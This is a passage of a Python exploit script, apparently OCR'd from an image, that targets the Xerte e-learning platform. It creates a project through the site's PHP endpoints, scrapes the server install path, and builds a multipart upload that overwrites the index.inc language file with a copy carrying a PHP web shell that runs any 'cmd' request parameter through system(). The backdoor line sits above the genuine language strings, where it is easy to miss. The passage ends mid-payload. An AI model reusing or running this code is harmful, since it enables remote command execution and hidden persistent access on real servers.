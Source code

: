         # Create a new project in order to find the install path  
        template_id = session.post(xerte_base_url + '/website_code/php/templates/new_template.php', data=data)  
      
        # Find template ID  
        data = {  
            'template_id': re.findall('(\d+)', template_id.text)[0]  
        }  
      
        # Find the install path:  
        install_path = session.post(xerte_base_url + '/website_code/php/properties/media_and_quota_template.php', data=data)  
        install_path = re.findall('mediapath" value="(.+?)"', install_path.text)[0]  
      
        headers = {  
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0',  
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',  
            'Accept-Language': 'nl,en-US;q=0.7,en;q=0.3',  
            'Content-Type': 'multipart/form-data; boundary=---------------------------170331411929658976061651588978',  
           }  
      
        # index.inc file  
        data = \  
        '''-----------------------------170331411929658976061651588978  
    Content-Disposition: form-data; name="filenameuploaded"; filename="index.inc"  
    Content-Type: application/octet-stream  
      
    <?php  
    if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }  
    /**  
     *  
     * index.php english language file  
     *  
     * @author Patrick Lockley  
     * @version 1.0  
     * @copyright Pat Lockley  
     * @package  
     */  
      
    define("INDEX_USERNAME_AND_PASSWORD_EMPTY", "Please enter your username and password");  
      
    define("INDEX_USERNAME_EMPTY", "Please enter your username");  
      
    define("INDEX_PASSWORD_EMPTY", "Please enter your password");  
      
    define("INDEX_LDAP_MISSING", "PHP\'s LDAP library needs to be installed to use LDAP authentication. If you read the install guide other options are available");  
      
